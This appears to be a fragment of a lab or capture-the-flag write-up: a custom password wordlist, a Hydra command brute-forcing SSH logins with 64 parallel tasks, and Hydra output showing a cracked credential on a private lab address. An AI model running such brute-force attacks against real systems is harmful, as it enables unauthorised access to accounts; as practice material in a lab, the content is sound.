 ```
flyingfish
monstermash
bifbuzz
wheelsonlyplease
slowmo
specialk
jumpjet
flyingtostunt
flyingfish
asnaeb
btcdbcb
kvgyzqk
helloladies
bgluawml
osrblhh
ljspqk
vkypqcf
szcmawo
rocketman
aiwprton
oldspeeddemon
cpktnwt
worshipme
naturaltalent
buffmeup
bringiton
fullclip
cvwkxam
ouiqdmw
professionalskit
professionaltools
ninjatown
stinglikeabee
ghosttown
speeditup
slowitdown
slowitdownbro
baguvix
speedfreak
bubblecars
```

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-09 12:03:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 234 login tries (l:3/p:78), ~4 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: joe   password: chittychittybangbang
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
